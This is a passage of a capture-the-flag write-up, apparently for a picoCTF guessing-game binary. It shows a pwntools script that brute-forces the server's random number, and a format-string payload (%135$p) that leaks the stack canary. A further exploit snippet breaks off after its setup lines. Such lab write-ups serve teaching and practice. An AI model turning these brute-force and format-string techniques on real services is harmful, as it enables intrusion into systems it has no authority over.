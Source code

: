     0xFFFFF9A1 xor 0xFFFFFFFF + 1 = 0x65E + 1 = 0x65F = 1631

![local_rand.png][4]
### remote
Unfortunately, this is not the correct number in the remote server
![remote_num_nope.png][5]
I found the number could only in the range (-4094,4096) b/c the following code

    long ans = (get_random() % 4096) + 1;

So try all possible number by using the following python code:

    from pwn import *
    sh = remote('jupiter.challenges.picoctf.org',13610)
    for num in range(-4094,4096):
    	sh.recvuntil('guess?\n')
    	sh.sendline(str(num))
    	print(str(num))
    	ret = sh.recvuntil('\n\n')
    	print(ret)
    	if ret == 'Congrats! You win! Your prize is this print statement!\n\n':
    		break

![remote_num_correct.png][6]

Now, I know the random number in the remote server is -31

## leck canary
I found there is a canary, so I tried to leck it by taking advantage of format string vuln.
![canary_ida.png][7]
Set a breakpoint at .text:080487D3
![bp_find_canary.png][8]
ebp+canary = FFC8BC7C
![canary.png][9]
esp = FFC8BA60
the canary can be treated as the 135th parameter (not include the format) of printf

    (0xFFC8BC7C - 0xFFC8BA60)/4 = 0x87 = 135

So, the canary can be 'leck'ed by input %135$p when it asking the winner's name.
![leck_canary.png][10]

#### python function to leck data in the stack


    from pwn import *
    
    sh = process('./vuln')
    #sh = remote('jupiter.challenges.picoctf.org',13610)
    # nc jupiter.challenges.picoctf.org 13610
    

  [1]: https://frc6.com/usr/uploads/2020/10/2971545081.zip
  [2]: https://frc6.com/usr/uploads/2020/10/4108005776.png
  [3]: https://frc6.com/usr/uploads/2020/10/3723486194.png
  [4]: https://frc6.com/usr/uploads/2020/10/2670320421.png
  [5]: https://frc6.com/usr/uploads/2020/10/2349705066.png
  [6]: https://frc6.com/usr/uploads/2020/10/2446962559.png
  [7]: https://frc6.com/usr/uploads/2020/10/652770218.png
  [8]: https://frc6.com/usr/uploads/2020/10/1411080372.png
  [9]: https://frc6.com/usr/uploads/2020/10/3912975445.png
  [10]: https://frc6.com/usr/uploads/2020/10/1268743115.png
  [11]: https://frc6.com/usr/uploads/2020/10/2294887826.png
  [12]: https://frc6.com/usr/uploads/2020/10/2816564190.png
  [13]: https://frc6.com/usr/uploads/2020/10/532307689.png
  [14]: https://frc6.com/usr/uploads/2020/10/215960980.png
  [15]: https://frc6.com/usr/uploads/2020/10/666389066.png
  [16]: https://frc6.com/usr/uploads/2020/10/1084771796.png